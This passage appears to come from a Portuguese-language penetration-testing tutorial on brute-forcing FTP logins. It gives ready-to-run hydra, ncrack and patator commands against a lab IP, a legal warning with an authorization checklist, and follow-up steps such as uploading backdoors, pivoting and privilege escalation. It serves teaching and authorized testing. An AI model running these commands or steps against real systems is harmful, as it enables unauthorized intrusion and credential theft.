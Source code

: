 ```bash
hydra -L users.txt -P pass.txt ftp://192.168.56.101
```

### 🛠️ Ncrack

```bash
ncrack -p ftp -U users.txt -P pass.txt 192.168.56.101
```

### 🛠️ Patator

```bash
patator ftp_login host=192.168.56.101 user=FILE0 password=FILE1 0=users.txt 1=pass.txt
```

---

## ⚠️ Considerações Éticas e Legais

### 🚨 **AVISO CRÍTICO**

> Este tipo de ataque é **ILEGAL** quando realizado sem autorização explícita. Use apenas em:
>
> - Ambientes de laboratório próprios
> - Sistemas com autorização por escrito
> - Programas de bug bounty autorizados
> - Testes de penetração contratados

### 📋 **Checklist Legal**

- [ ] Autorização por escrito obtida
- [ ] Escopo do teste bem definido
- [ ] Limitações de tempo estabelecidas
- [ ] Contrato de confidencialidade assinado
- [ ] Plano de remediação preparado

---

## 📚 Próximos Passos

### 🎯 Com Acesso FTP Obtido

1. **Exploração de diretórios**
2. **Upload de backdoors/shells**
3. **Coleta de informações sensíveis**
4. **Pivoting para outros serviços**
5. **Escalação de privilégios**

### 🔄 Se o Ataque Falhar

1. **Testar outros serviços** (SSH, SMB, HTTP)
2. **Wordlists mais extensas**
3. **Ataques baseados em dicionários específicos**
4. **Social engineering** para obter credenciais
5. **Exploração de vulnerabilidades** em software

---